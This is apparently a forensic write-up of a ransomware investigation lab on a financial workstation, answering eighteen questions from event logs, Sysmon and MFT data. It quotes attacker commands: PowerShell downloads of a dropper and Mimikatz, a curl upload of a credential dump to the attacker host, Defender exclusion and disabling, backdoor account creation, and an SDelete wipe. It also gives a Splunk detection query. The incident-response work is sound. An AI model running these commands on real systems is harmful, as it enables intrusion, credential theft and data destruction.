Scenario:
On December 13, 2024, the Security Operations Center (SOC) detected unusual activity from a financial workstation. Unauthorized access and suspicious modifications to security settings were observed, suggesting malicious intent.
Investigate the incident to uncover how the compromise occurred, methods used to maintain access, and the scope of sensitive data affected.
Executive Summary
On December 13, 2024, a financial workstation (ABOZ4HRA) was involved in a ransomware intrusion following an MSSQL brute-force attack. Analysis identified 21 failed SQL authentication attempts from 10.10.10.55, followed by a successful login at 22:52:47. Subsequent activity showed the SQL Server process spawning commands to weaken Microsoft Defender protection and download attacker tools from 192.168.1.52:4561.
The attacker deployed AnyDesk, created a privileged local account named Reng0ku, downloaded Mimikatz, and issued an HTTP upload command targeting C:\Mimikatz_dump.txt. The ransomware dropper oh_my_gotto.exe extracted additional components and launched ELPACO-team.exe, which in turn launched the masquerading ransomware executable svhostss.exe and a GUI component, gui40.exe. The investigation also identified timestamp manipulation, use of Everything32.dll, a ransom note containing a victim decryption ID, and an SDelete-based free-space wiping command.
The observed activity demonstrates credential-access attempts, persistence, defense evasion, ransomware deployment, and attempted exfiltration. The available evidence confirms ransom-note creation and execution of a command to upload credential material; it does not independently establish the full scope of encrypted files or verify that the upload completed.
Q1:
How many failed login attempts did the attacker make during their brute-force attack on the MSSQL server?
To begin the investigation, I parsed the Master File Table (MFT), USN Journal, and Windows Event Logs using Eric Zimmerman's forensic tools to extract relevant artifacts for timeline analysis.
First, I used MFTECmd to process the MFT and USN Journal:
MFTECmd.exe -f "C:\Users\Administrator\Desktop\Start Here\Artifacts\Disk Triage\C\$Extend\$J" -m "C:\Users\Administrator\Desktop\Start Here\Artifacts\Disk Triage\C\$MFT" --csv "C:\Users\Administrator\Desktop\Start Here\output" --dr
Next, I used EvtxECmd to parse the Windows Event Logs:
EvtxEcmd.exe -d "C:\Users\Administrator\Desktop\Start Here\Artifacts\Disk Triage\C\Windows\system32\winevt" --csv "C:\Users\Administrator\Desktop\Start Here"
After processing the artifacts, I loaded the resulting CSV files into Timeline Explorer to examine the recorded activity.
To identify the brute-force attempts, I filtered for Event ID 18456, which indicates a failed SQL Server authentication attempt.
The analysis revealed a series of repeated authentication failures beginning at:
2024-12-13 22:52:46
The events contained the following details:
- Event ID: 18456
- Failure Reason:
Password did not match that for the login provided. - `CLIENT: 10.10.10.55
- Activity: Multiple failed authentication attempts within approximately one millisecond.
The high frequency of failed authentication attempts is consistent with automated password-guessing activity targeting the MSSQL server.

After filtering and counting the relevant events, I identified a total of 21 failed login attempts.
Q2:
When did the attacker first successfully log in to the MSSQL server during the brute-force attack?
Following the identification of the failed authentication attempts in Q1, I pivoted to Event ID 18454, which records successful SQL Server authentication events.
Using Timeline Explorer, I filtered for Event ID 18454 and examined the events occurring around the initial brute-force activity identified in Q1.
The analysis revealed a successful authentication event at:
2024-12-13 22:52:47
This occurred approximately one second after the previously identified failed authentication attempts, suggesting that the attacker successfully authenticated to the MSSQL server after attempting multiple passwords.

The close correlation between the failed authentication attempts and the subsequent successful login strongly suggests that the brute-force attack resulted in valid credentials being identified.
Q3:
Identifying the name and PID of the malicious process is crucial for understanding the nature of the attack. What is the main binary and process ID of the Windows executable that serves as a dropper for ransomware?
Continuing the investigation, I analyzed the Sysmon logs from the compromised workstation, ABOZ4HRA, focusing on Sysmon Event ID 1 (Process Creation) to identify suspicious executable activity.
During the analysis, I identified a particularly suspicious process execution event on:
2024-12-13 23:47:03
The event revealed that cmd.exe, spawned by the SQL Server process (sqlservr.exe), executed the following PowerShell command:
"C:\Windows\system32\cmd.exe" /c powershell Invoke-WebRequest -Uri "hxxp[://]192[.]168[.]1[.]52:4561/oh_my_gotto[.]exe" -OutFile "C:\Users\Administrator\AppData\Local\Temp\oh_my_gotto.exe"
This command uses PowerShell's Invoke-WebRequest to download an executable named oh_my_gotto.exe from hxxp[://]192[.]168[.]1[.]52:4561 and save it to the Administrator's temporary directory.
The process relationship is particularly noteworthy because SQL Server spawned a command shell to download an executable, which is unusual for normal database operations and potentially indicates abuse of SQL Server functionality to execute operating system commands.

I continued examining subsequent process creation events and identified another suspicious event at:
2024-12-13 23:48:42
This event confirmed the execution of the previously downloaded binary.
The Sysmon event contained the following information:
- Executable:
oh_my_gotto.exe - Process ID (PID):
4224 - Executable Path:
C:\Users\Administrator\AppData\Local\Temp\oh_my_gotto.exe - Parent Process:
explorer.exe - Parent PID:
888 - Execution Account:
ABOZ4HRA\Administrator

The correlation between the initial PowerShell download and subsequent execution confirms that the executable was retrieved and launched on the compromised workstation.
Additionally, the executable was launched under the Administrator account, indicating that it executed within a privileged user context.
Based on these findings, oh_my_gotto.exe was identified as the suspected ransomware dropper.
Answer: oh_my_gotto.exe, 4224
Q4:
After executing the main malicious binary as a dropper, what is the name of the directory where the initial malicious components were dropped?
Building on the findings from Q3, I continued analyzing Sysmon Event ID 1 (Process Creation) to investigate the activity immediately following the execution of oh_my_gotto.exe.
By examining the child processes spawned by the malicious executable, I identified several commands referencing the following directory:
C:\Users\Administrator\AppData\Local\Temp\7ZipSfx.000\
The directory name 7ZipSfx.000 suggests that the malicious executable was packaged as a 7-Zip self-extracting (SFX) archive, which extracted its embedded components into a temporary directory.
Further analysis revealed several suspicious commands referencing this location, including:
"C:\Users\Administrator\AppData\Local\Temp\7ZipSfx.000\7za.exe" x -y -p7183204373585782 Everything64.dll
This command uses the 7-Zip executable (7za.exe) to extract a password-protected archive component named Everything64.dll.
Additional process creation events referenced other executables and scripts, suggesting that the dropper initiated a multistage execution chain after extraction.

These findings indicate that oh_my_gotto.exe acted as a self-extracting dropper, using the temporary directory to stage additional components before executing subsequent payloads.
Q5:
What are the first 10 characters of the SHA256 hash of the remote desktop software installed by the attacker on the victim's machine?
Continuing the investigation, I analyzed the Sysmon Event ID 1 (Process Creation) logs to identify any remote access software installed or executed by the attacker.
During the analysis, I observed suspicious activity involving AnyDesk, a legitimate remote monitoring and management (RMM) tool commonly used for remote administration but also frequently abused by threat actors to establish persistent remote access.
The earliest identified AnyDesk-related activity occurred at:
2024-12-13 23:42:08
The associated process creation events revealed commands related to AnyDesk, suggesting that the attacker was attempting to establish remote access to the compromised workstation.

To investigate further, I filtered the process creation events for AnyDesk.exe and examined the corresponding Sysmon event details.
Sysmon Event ID 1 includes executable hash information when hash collection is configured, allowing investigators to identify the exact binary executed on the system.
From the recorded Hashes field, I extracted the SHA256 hash and identified its first 10 characters:
FFF4B96876
NOTE: If the specific RMM tool were initially unknown, another effective investigative approach would be to examine Windows Event ID 7045 (Service Installation) and Event ID 4697 (Service Installed in the System).
Many RMM tools, including AnyDesk, can install Windows services to support unattended access and background operation.
Reviewing newly created services, their executable paths, and associated installation timestamps can help identify potentially unauthorized remote access software.
However, service creation is not guaranteed, since some RMM tools can operate in portable mode without installing a service.
Correlating service installation events with Sysmon process creation telemetry provides a stronger method for detecting unauthorized RMM deployment.
Q6:
What is the MITRE sub-technique ID associated with the method the attacker used to establish persistence?
While reviewing the process creation events from the previous investigation, I identified several suspicious commands associated with local account creation and privilege escalation.
Specifically, the attacker executed the following commands:
net user Reng0ku H@cker123 /add
net localgroup administrators Reng0ku /add
The first command creates a new local user account named Reng0ku, while the second adds that account to the local Administrators group, granting it administrative privileges.
Interestingly, the logs also revealed the use of net1.exe and a command referencing administradores, the Spanish name for the Administrators group.
These commands indicate that the attacker attempted to establish persistent access through a newly created, privileged local account.

This activity aligns with the following MITRE ATT&CK sub-technique: T1136.001 - Create Account: Local Account
By creating a local account, the attacker established an additional method of accessing the compromised workstation, potentially allowing continued access even if the original entry point was remediated.
Q7:
Which path did the attacker exclude to evade defenses?
Continuing the investigation, I identified suspicious activity involving modifications to Microsoft Defender Antivirus settings.
The activity occurred on:
2024-12-13 23:37:10
The following command was executed:
"C:\Windows\system32\cmd.exe" /c powershell.exe -Command "Set-MpPreference -ExclusionPath 'C:\'"
This command uses PowerShell's Set-MpPreference cmdlet to configure a Microsoft Defender Antivirus exclusion for the entire C:\ drive.
By excluding the root of the C: drive, the attacker attempted to prevent Microsoft Defender Antivirus from scanning files within that location, significantly weakening the system's malware detection capabilities.
Another important observation is that the command was spawned by **sqlservr.exe**, running under the NT SERVICE\MSSQLSERVER account. This further supports the possibility that the attacker abused SQL Server functionality to execute operating system commands.

This activity aligns with MITRE ATT&CK T1562.001 - Impair Defenses: Disable or Modify Tools, as the attacker attempted to weaken endpoint protection by modifying antivirus exclusions.
Although Splunk was not used for this particular investigation, a useful approach for detecting similar activity in a SOC environment would be to search for suspicious PowerShell commands modifying Microsoft Defender settings.
index=YourIndexHere
("Add-MpPreference" OR "Set-MpPreference" OR "ExclusionPath")
| table _time host EventCode Image CommandLine ScriptBlockText Message
| sort - _time
This query searches across available indexed telemetry for references to Defender configuration commands, helping identify potential attempts to add or modify antivirus exclusions.
For a more targeted investigation, these results can be correlated with process creation events, PowerShell Script Block Logging (Event ID 4104), and Microsoft Defender configuration change events (Event ID 5007).
Event ID 5007 is particularly valuable, as it can provide evidence that Defender settings actually changed, rather than merely showing that a command was executed.
Q8:
What is the password for the protected archive that contains the additional malicious payloads?
This was seen earlier when oh_my_gotto.exe was ran. A few seconds later, we see:
"C:\Users\Administrator\AppData\Local\Temp\7ZipSfx.000\7za.exe" x -y -p7183204373585782 Everything64.dll
7183204373585782 being the password for the archive.
Q9:
What are the first 8 characters of the directory name created by the malware to store and copy the dropped files?
Continuing the investigation, I examined the logs to trace the execution chain following the initial deployment of oh_my_gotto.exe.
As identified previously, the initial dropper extracted components into the temporary directory 7ZipSfx.000, from which another executable, ELPACO-team.exe, was launched.
Further analysis revealed that ELPACO-team.exe subsequently spawned an executable named svhostss.exe, located within a separate directory:
C:\Users\Administrator\AppData\Local\BD3FDDDF-6CAF-3EBC-D9CF-C8DF72D8F78A\
Additional process creation events referenced several executables within this directory, including gui40.exe, Everything.exe, and DC.exe.
This suggests that the malware used the directory as a secondary staging location for its additional components.

The execution sequence indicates that the initial dropper launched a secondary executable, which then initiated additional processes from the newly identified directory.
Answer: BD3FDDDF
Q10:
The attacker attempted to disguise the ransomware by renaming it to resemble a legitimate system process. What new name was assigned to the ransomware?
Continuing the investigation, I correlated Sysmon Event ID 1 (Process Creation) with the USN Journal to examine the ransomware's execution and associated file system activity.
At 2024-12-13 23:48:49, Sysmon recorded the execution of a suspicious executable named svhostss.exe, launched by the previously identified ELPACO-team.exe.
The relevant event details were:
Timestamp: 2024-12-13 23:48:49.611
Event ID: 1 (Process Creation)
Image: C:\Users\Administrator\AppData\Local\BD3FDDDF-6CAF-3EBC-D9CF-C8DF72D8F78A\svhostss.exe
Process ID: 1220
Parent Image: C:\Users\Administrator\AppData\Local\Temp\7ZipSfx.000\ELPACO-team.exe
Parent PID: 4772
User: ABOZ4HRA\Administrator
The filename svhostss.exe closely resembles the legitimate Windows process svchost.exe (Service Host), suggesting an attempt to disguise malicious activity through masquerading.
To further investigate, I examined the parsed USN Journal and identified multiple file system records referencing svhostss.exe at approximately 23:48:49, correlating with its execution timestamp.

The correlation between the process creation event and USN Journal activity supports the finding that the suspicious executable was present and active during the malware deployment sequence.
Q11:
To further evade detection, the attacker manipulated the file's timestamp. What is the stomped UTC creation timestamp of the ransomware file?
Continuing the investigation, I examined the Master File Table (MFT) to identify potential timestamp manipulation associated with the ransomware executable svhostss.exe.
As established in the previous questions, the ransomware executable appeared on the compromised workstation on December 13, 2024, with Sysmon recording its execution at 23:48:49.
However, after filtering the parsed MFT records for svhostss.exe in Timeline Explorer, I identified a significantly older creation timestamp:
2021-08-19 01:32:31 UTC
This timestamp is inconsistent with the previously observed malware deployment activity in December 2024, suggesting that the attacker manipulated the file's creation timestamp to make the executable appear older than it actually was.
This technique is known as timestomping, in which attackers modify file timestamps to obscure malicious activity and complicate forensic timeline analysis.

Q12:
The ransomware executed a malicious file that is responsible for disabling Windows Defender. What is the name of the malicious file?
At approximately 2024-12-13 23:51:45, I identified the following suspicious command:
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.24090.11-0\MpCmdRun.exe" -DisableService
This command attempts to disable the Microsoft Defender service using MpCmdRun.exe, a legitimate Microsoft Defender command-line utility.
Correlating this activity with preceding process creation events revealed execution of **DC.exe**, an executable previously observed within the ransomware's staging directory:
C:\Users\Administrator\AppData\Local\BD3FDDDF-6CAF-3EBC-D9CF-C8DF72D8F78A\DC.exe
The close relationship between DC.exe and the subsequent Defender-disabling activity suggests that this executable was responsible for attempting to interfere with endpoint protection.
Q13:
What are the IP address and port of the C2 server the attacker used to transfer their malicious tools?
During the investigation, I previously identified a PowerShell command responsible for downloading the ransomware dropper, oh_my_gotto.exe.
Further analysis revealed another suspicious PowerShell command executed at approximately:
2024-12-13 23:45:29
powershell -Command "Invoke-WebRequest -Uri http://192.168.1.52:4561/mimikatz.exe -OutFile \"C:\Program Files (x86)\mimikatz.exe\""
This command uses PowerShell's Invoke-WebRequest to download mimikatz.exe, a credential-dumping tool commonly abused by attackers to extract authentication credentials from compromised Windows systems.
The command revealed the following information:
- Remote IP Address:
192[.]168[.]1[.]52 - Destination Port:
4561 - Downloaded File:
mimikatz.exe - Download Location:
C:\Program Files (x86)\mimikatz.exe
The same IP address and port were also observed in the earlier command used to download oh_my_gotto.exe, establishing a connection between the infrastructure used to deliver multiple malicious tools.

These findings identify 192[.]168[.]1[.]52:4561 as the attacker-controlled endpoint used to distribute malicious tools to the compromised workstation.
Q14:
The GUI interface is used to control the operation of the ransomware. What is the name of the process and PID?
As was observed in previous questions, an executable named gui40.exe was deployed alongside other malicious components within the ransomware's staging directory.
By filtering the process creation events for gui40.exe, I identified the following execution event:
Timestamp: 2024-12-13 23:48:53.247 UTC
Event ID: 1 (Process Creation)
Process Name: gui40.exe
Process ID: 5484
OriginalFileName: unwrapper.exe
Description: GUI
Parent Process: svhostss.exe
Parent PID: 1220
User: ABOZ4HRA\Administrator
Integrity Level: High
The event confirmed that gui40.exe was launched by svhostss.exe, the previously identified ransomware executable.
Additionally, the executable metadata contained the description GUI and the original filename unwrapper.exe, further supporting its identification as the ransomware's graphical interface component.

The parent-child relationship establishes the following execution sequence:
ELPACO-team.exe → svhostss.exe → gui40.exe
This indicates that the ransomware launched a separate GUI component as part of its execution chain, likely providing an interface for controlling or monitoring its operations.
Answer: gui40.exe, 5484
Q15:
After dumping the credentials, the attacker transferred the output file to their C2 server. What is the name of the exfiltrated file?
As previously identified, the attacker downloaded mimikatz.exe onto the compromised workstation, suggesting an attempt to extract credentials from the system.
Further analysis revealed suspicious activity at:
2024-12-13 23:46:36
The following command was executed:
"C:\Windows\system32\cmd.exe" /c curl -T C:\Mimikatz_dump.txt http://192.168.1.52:4561
This command uses curl with the **-T** (upload file) parameter to transfer Mimikatz_dump.txt to the attacker's server at 192.168.1.52:4561.
The command reveals the following information:
- Source File:
C:\Mimikatz_dump.txt - Destination:
http://192.168.1.52:4561 - Transfer Method: HTTP upload using
curl -T

This activity strongly indicates an attempt to exfiltrate credentials collected from the compromised workstation.
Q16:
After launching the ransomware, it used a legitimate DLL component to select target files for encryption. What is the name of the DLL?
Initially, I suspected the answer was Everything64.dll, as we previously identified the following command during the ransomware's execution:
"C:\Users\Administrator\AppData\Local\Temp\7ZipSfx.000\7za.exe" x -y -p7183204373585782 Everything64.dll
However, this was not the correct answer.
To investigate further, I conducted additional research into the ELPACO ransomware family, which led me to information about its use of the legitimate Everything file-search utility.
The research indicated that ELPACO abuses Everything32.dll to enumerate and identify files targeted for encryption, utilizing the DLL's SetSearchW functionality.

With this information, I returned to Timeline Explorer and filtered the Sysmon logs for Event ID 11 (File Create), searching specifically for Everything32.dll.
This revealed multiple file creation events referencing the DLL, including the following locations:
C:\Users\Administrator\AppData\Local\Temp\7ZipSfx.000\Everything32.dll
C:\Users\Administrator\AppData\Local\BD3FDDDF-6CAF-3EBC-D9CF-C8DF72D8F78A\Everything32.dll

These findings confirmed that Everything32.dll was deployed to the compromised workstation.
Q17:
The ransomware employs a comprehensive configuration setup. It uses a randomly generated specified decryption ID. What are the first 10 characters of the decryption ID?
Continuing the investigation, I focused on identifying the decryption ID generated by the ransomware, which is used to associate the victim with their encrypted files and potential recovery information.
Based on additional research, ELPACO ransomware stores the victim's decryption ID within a ransom note named Decryption_INFO.txt.
To locate this file, I analyzed the parsed USN Journal using Timeline Explorer and filtered for Decryption_INFO.txt.
The results revealed file system activity involving the ransom note beginning at:
2024-12-13 23:51:38
The file was located within the following directory:
C:\Users\Administrator\AppData\Local\

After identifying the file's location, I navigated to the directory and opened Decryption_INFO.txt to examine its contents.
The ransom note confirmed that the victim's files had been encrypted and provided instructions for contacting the attackers to obtain a decryption tool.
More importantly, the note contained a unique decryption ID assigned to the victim:
BbvdsgAoTiYPteTQ8G5FCZEZ2TkSXikVxHzQlzNV2FE*mo4de1

Extracting the first 10 characters of the decryption ID gives:
Answer: BbvdsgAoTi
Q18:
The attacker used a tool to cover their tracks and prevent forensic analysis by overwriting data to prevent recovery. What is the official name of the tool the attacker used ?
While reviewing the findings from previous questions, I noticed a suspicious command involving an executable named xdel.exe:
"C:\Users\Administrator\AppData\Local\BD3FDDDF-6CAF-3EBC-D9CF-C8DF72D8F78A\xdel.exe" -accepteula -p 1 -c C:\
To investigate further, I returned to Sysmon Event ID 1 (Process Creation) and examined the executable's metadata and parent process information.
The event revealed the following details:
Timestamp: 2024-12-13 23:53:35.775 UTC
Event ID: 1 (Process Creation)
Process Name: xdel.exe
Process ID: 1188
OriginalFileName: sdelete.exe
Product: Sysinternals Sdelete
Description: Secure file delete
File Version: 2.04
Parent Process: svhostss.exe
Parent PID: 1220
Interestingly, although the executable was named xdel.exe, its embedded metadata identified it as Microsoft Sysinternals SDelete, a legitimate utility designed to securely delete files and overwrite free disk space.
The command-line arguments further revealed its intended purpose:
-accepteula- Automatically accepts the Sysinternals license agreement.-p 1- Specifies a single overwrite pass.-c- Cleans free space on the specified volume.C:\- Targets the C: drive.
The -c parameter is particularly significant because it instructs SDelete to overwrite free disk space, potentially destroying recoverable remnants of previously deleted files and complicating forensic recovery.
Additionally, the executable was launched by svhostss.exe, the previously identified ransomware process, directly linking this activity to the malicious execution chain.
Indicators of Compromise (IOC)
| IOC Type | Indicator | Description |
|---|---|---|
| Source IP | 10.10.10.55 | Client IP associated with MSSQL authentication failures |
| Tool-delivery endpoint | 192.168.1.52:4561 | HTTP server used in commands to download executable tools |
